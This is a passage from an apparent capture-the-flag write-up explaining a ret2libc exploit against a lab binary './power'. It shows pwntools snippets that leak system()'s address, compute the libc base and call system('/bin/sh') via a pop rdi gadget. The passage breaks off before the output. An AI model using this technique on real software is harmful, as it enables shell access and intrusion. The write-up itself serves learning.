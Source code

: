 First, `_IO_gets` will read the rest of the payload into the program. `pop rdi; ret` then pops the address of string '/bin/sh' into register `rdi`. Register `rdi` holds the first argument for syscalls in x64 architecture. Then `system('/bin/sh')` is called, giving us a shell.

##### Understanding the basics
To understand how the payload works, you need to understand how dynamic linkers work. I recommend reading [this]() article to get a basic understanding of how it works.

`./power` is dynamically linked. When `./power` is running, and requests for the shared library `libc.so.6`, the dynamic linker loads the shared library from the disk to memory. 
```
power: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8f67b4fbc3143f836a9c9968f58f0dd76c90fd51, not stripped
```
When the shared library is loaded, it gets relocated in memory. In other words, its memory address changes. 

##### Understanding how the payload works
To understand how the payload works and fadec0d3's explanation, I decided to make a Python script after fadec0d3's. I will explain snippets of it first before I show my complete script.

1. Getting the address Mage gifts us.
```
from pwn import *
[...]
r = process('./power')
[...]
r.recvuntil('(yes/no): ')
r.send('yes\n')
print("\n")
addr_of_system_in_power = int(r.recvuntil("]")[-13:-1], 16)
log.info("Address of system() in ./power: {}".format(hex(addr_of_system_in_power)))
```
As I correctly identified before, the address Mage gives us is the address of `__libc_system` in `./power`. The purpose of this is not just for us to return to `__libc_system`, but also for us to use it to calculate the base address of `libc.so.6` after being relocated by the dynamic linker.

2. Calculating the base address of `libc.so.6`
```
[...]
libc = ELF('libc.so.6')
[...]
addr_of_system_in_libc = libc.symbols['__libc_system']
log.info("Address of system() in libc.so.6: {}".format(hex(addr_of_system_in_libc)))
print("\n")
addr_of_libc_in_power = addr_of_system_in_power - addr_of_system_in_libc
log.info("Address of libc.so.6 base in ./power: {}".format(hex(addr_of_libc_in_power)))
print("\n")
```
Here, we load the shared library `libc.so.6` into our script and find the offset of the memory address of `__libc_system` to the base address of `libc.so.6` before relocation. By comparing that to the memory address of `__libc_system` in `./power`, we can find the base address of the shared library after relocation.
```
addr_of_libc_in_power = addr_of_system_in_power - addr_of_system_in_libc
log.info("Address of libc.so.6 base in ./power: {}".format(hex(addr_of_libc_in_power)))
```
Upon running, the 2 snippets above produce the output below
  